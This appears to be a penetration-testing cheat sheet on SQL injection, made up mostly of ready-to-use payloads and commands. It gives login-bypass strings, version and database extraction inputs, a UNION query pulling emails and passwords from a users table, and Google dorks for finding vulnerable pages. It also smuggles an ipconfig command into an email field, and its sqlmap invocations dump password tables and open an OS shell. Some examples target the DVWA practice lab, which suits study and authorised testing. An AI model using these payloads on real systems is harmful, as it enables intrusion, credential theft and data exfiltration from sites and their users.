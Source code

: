 # SQL Injection


**Check for SQLi by adding and single quote or the following: 
**

```
‘ or 1=1--<space>

```



```
http://www.target.com/index.php?val=100’
http://www.target.com/index.php?val=100’ or ‘1’=’1

Username: ' or 1=1--<space>
Password:
```



**Try to login as a specific user.
**

```
Username: bob
Password: ' or (1=1 and username = 'bob')--<space>
```



**Database version
**

```
Username: +convert(varchar,convert(int,@@version))+
```


### Google Dorks

inurl:index.php?id=
inurl:gallery.php?id=
inurl:article.php?id=
inurl:pageid=

SQL databases interpret the single quote character as the boundary between code and data. It assumes that
anything following a single quote is code that it needs to run and anything encapsulated by a quote is data.



```
Example: SELECT * FROM products WHERE price < '100' ORDER BY description;

' and 1=0/@@version;--
' and 1=0/user;--
' having 1'='1
' GROUPED BY productid having '1'='1
' GROUPED BY productid,name having '1'='1
```



MS-SQL server concatenates numbers, it does not add them. '10' + '0' would equal 100 not 10.



```
SELECT * FROM table1 WHERE condition1
union all

SELECT * FROM table2 WHERE condition2

OS - @@version
  Server instances - @@servername
    Databases
      Tables
        Columns

SELECT name FROM master..sysdatabases

```



```

http://target.com/bookservice/bookdetail.aspx?id=2 or 1 in (SELECT DB_NAME(0))—
http://target.com/article.aspx?article_id=0+UNION+SELECT+EMAIL,+USERID,+PASSWORD+FROM+USERS
Newsletter signup > Subscribe:  joe@gmail.com & ipconfig > C:\inetpub\wwwroot\Book\test.txt
```



**Use Burp to trap a request. Copy the request to /root/tmp.
**


```
sqlmap -r /root/tmp
sqlmap -r /root/tmp -p <parameter> --current-user        Show the user the web server is using to talk to the db
sqlmap -r /root/tmp -p <parameter> -U <user> --passwords
sqlmap -r /root/tmp --dbs                                Search for all dbs
sqlmap -r /root/tmp -D <database> --tables               Show all tables in db
sqlmap -r /root/tmp -D <database> -T <table> --dump      Show all data in table
```



From: http://niiconsulting.com/checkmate/2014/01/from-sql-injection-to-0wnage-using-sqlmap/


```

sqlmap.py --url=”http://target.com/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#”
--cookie="security=low; PHPSESSID=e8495b455c5ef26c415ab480425135ee"

sqlmap.py --url="http://target.com/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"
--cookie="security=low; PHPSESSID=e8495b455c5ef26c415ab480425135ee" --dbs

sqlmap.py --url="http://target.com/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"
--cookie="security=low; PHPSESSID=e8495b455c5ef26c415ab480425135ee" -D dvwa --tables

sqlmap.py --url="http://target.com/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"
--cookie="security=low; PHPSESSID=e8495b455c5ef26c415ab480425135ee" -D dvwa -T users --columns

sqlmap.py --url="http://target.com/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"
--cookie="security=low; PHPSESSID=e8495b455c5ef26c415ab480425135ee" -D dvwa -T users
-C user_id,user,password --dump

sqlmap.py --url="http://target.com/login.asp" --data="txtLoginID=shrikant&txtPassword=password&cmdSubmit=Login"
--os-shell
```


